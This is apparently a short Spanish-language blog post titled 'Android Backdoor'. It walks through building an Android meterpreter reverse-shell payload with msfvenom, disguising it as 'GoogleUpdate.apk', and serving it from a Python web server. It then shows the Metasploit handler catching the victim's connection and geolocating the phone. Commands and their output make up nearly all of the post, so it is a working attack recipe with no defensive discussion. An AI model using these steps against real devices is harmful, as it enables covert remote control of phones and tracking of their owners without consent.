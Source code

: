 ```yaml
---
layout: post
title: "Android Backdoor"
date: 2016-11-08 10:26:04 -0500
categories: crypto
---
```


Los Backdoors son programas diseñados para abrir **puertas traseras** en sistemas remotos de información de tal forma que se pueda tener acceso a ellos de forma oculta y no autorizada.

Creamos el backdoor y dejamos un handler esperando conexiones.

IP del equipo atacante: 192.168.1.35

    $ msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.1.35 lport=6666 -o GoogleUpdate.apk
    No platform was selected, choosing Msf::Module::Platform::Android from the payload
    No Arch selected, selecting Arch: dalvik from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 8315 bytes
    Saved as: GoogleUpdate.apk

    $ msfconsole

    msf > use exploit/multi/handler
    msf exploit(handler) > set payload android/meterpreter/reverse_tcp
    payload => android/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.1.35
    LHOST => 192.168.1.35
    msf exploit(handler) > set LPORT 6666
    LPORT => 6666
    msf exploit(handler) > run
    [*] Started reverse TCP handler on 192.168.1.35:6666
    [*] Starting the payload handler...

Arrancamos un servidor web para que el objetivo pueda acceder al backdoor.

    $ python -m CGIHTTPServer

El objetivo ejecuta el backdoor y se obtiene acceso remoto

    [*] Sending stage (66498 bytes) to 192.168.1.31
    [*] Meterpreter session 1 opened (192.168.1.35:6666 -> 192.168.1.31:42473) at 2016-11-07 13:16:34 -0500

    meterpreter > sysinfo
    Computer    : localhost
    OS          : Android 4.0.3 - Linux 3.0.8-379370-user (armv7l)
    Meterpreter : java/android
    meterpreter > wlan_geolocate
    [*] Google indicates the device is thin 150 meters of 2.9113409,-76.0365285.
    [*] Google Maps URL: https://maps.google.com/?q=2.9113409,-76.0365285
    meterpreter >
